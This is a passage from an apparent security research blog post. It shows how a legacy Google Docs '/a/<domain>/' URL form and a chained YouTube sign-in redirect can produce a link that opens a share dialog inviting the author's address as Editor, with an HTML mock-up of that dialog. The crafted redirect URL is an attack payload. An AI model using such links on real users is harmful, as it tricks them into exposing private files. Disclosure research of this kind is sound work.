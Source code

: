 and it should work! But we have to find something that'd work for that part in the middle. And lucky for us, I had already spotted something like that in my googling earlier.

It seems like there's an old legacy GSuite URL format of **docs.google.com/a/&lt;domain&gt;/...**, which probably did something useful years ago (edit: and still does[^adva]), but these days just disappears when you open an URL. If you're logged out, you must find some working donor URL to use, such as **/a/wyo.gov/**[^wyo], but logged in you can even do **/a/a/** and it'll just work.

Here are a couple of example URLs to try out.

This one should work regardless of your login state:

<div class="urlBox" style="margin-top:-12px"><a href="https://docs.google.com/a/wyo.gov/file/d/10LlimFowOJ_noDrJsv4CnRgU8XoUKRAa6YjTeJFrs70/edit">https://docs.google.com<span style="color:#FFF">/a/wyo.gov/</span>file/d/10LlimFowOJ_noDrJsv4CnRgU8XoUKRAa6YjTeJFrs70/edit</a></div>

And this one requires that you be logged into any Google account:

<div class="urlBox" style="margin-top:-12px"><a href="https://docs.google.com/a/a/file/d/10LlimFowOJ_noDrJsv4CnRgU8XoUKRAa6YjTeJFrs70/edit">https://docs.google.com<span style="color:#FFF">/a/a/</span>file/d/10LlimFowOJ_noDrJsv4CnRgU8XoUKRAa6YjTeJFrs70/edit</a></div>

Both will end up redirecting to <span class="urlBox">https://docs.google.com/file/d/10LlimFowOJ_noDrJsv4CnRgU8XoUKRAa6YjTeJFrs70/edit</span>.

With that figured out, let's throw the **/a/a/** thing into our "videoid" from earlier:
<span class="urlBox">../signin?next=https%3A%2F%2Faccounts.youtube.com%2Faccounts%2FSetSID%3Fcontinue%3Dhttps%3A%2F%2Fdocs.google.com%252Ffile%252Fd%252F1sHy3aQXsIlnOCj-mBFxQ0ZXm4TzjjfFL%252Fedit%253Fuserstoinvite%253Dlyra.horse%2540gmail.com</span>

<div class="genericContainer" style="background:#F9FBFD">
    <div class="sldsMain" style="margin:20px 10px">
            <div class="sldsSlide" style="aspect-ratio:unset;height:420px">
                <div style="width:94%;height:90%;margin:auto;overflow:hidden;border: 2px inset #EEE;background:#0E0E0E"><div style="transform:scale(0.8);width:125%;height:125%;margin:-6.75% 0 0 -12.5%">
    <div class="filePg defSelect" style="width:100%;height:100%">
        <div class="filePgO">
            <div class="shareDlg">
                    <div class="iconButton iconButtonLight" style="position:absolute;left:16px;top:12px"><svg width="24" height="24" viewBox="0 0 24 24" style="margin:auto"><path d="M20 11H7.83l5.59-5.59L12 4l-8 8 8 8 1.41-1.41L7.83 13H20v-2z"></path></svg></div>
                    <div class="shareDlgTitle" style="margin-left: 42px">Share "Secret Folder"</div>
                    <div style="display:flex;margin-top:20px"><div class="shareDlgBbox" style="padding:10px 18px;flex-grow:1;user-select:none;cursor:default;display:flex;align-items:center;margin-right:10px"><div class="shareDlgBubble"><div style="background:#7B1FA2;height:17px;width:17px;border-radius:17px;transform:translate(-4px,0);color:#FFF;line-height:17px;font-weight:400;font-size:12px" class="over480">L</div>Lyra Rebane<span style="margin-left:10px" class="over360">✖</span></div></div><div class="shareDlgBbox" style="padding:14px 18px;width:fit-content;user-select:none;cursor:default;display:flex;align-items:center">Editor<div class="sldsDrop over360" style="margin-left:12px"></div></div></div>
                    <div style="display:flex;align-items:center;margin-top:16px;margin-bottom:14px"><input id="notifyChk2" type="checkbox" style="width:18px;height:18px;filter: brightness(0.8) contrast(1.5);margin:1px;margin-right:16px" checked><label for="notifyChk2">Notify people</label></div>
                        <textarea class="shareDlgTbox shareDlgBbox over480" style="padding:8px 16px;font-size: 14px;height:96px;font-family:inherit;resize: none" placeholder="Message"></textarea>
                        <div style="display:flex;margin: 28px 0 8px;justify-content: flex-end"><div class="shareDlgBtn shareDlgBtnWhite">Cancel</div><div class="shareDlgBtn shareDlgBtnBlue" style="margin-left:8px">Send</div></div>
            </div>
        </div>
    </div>
                </div> </div>
            </div>
        </div>
</div>
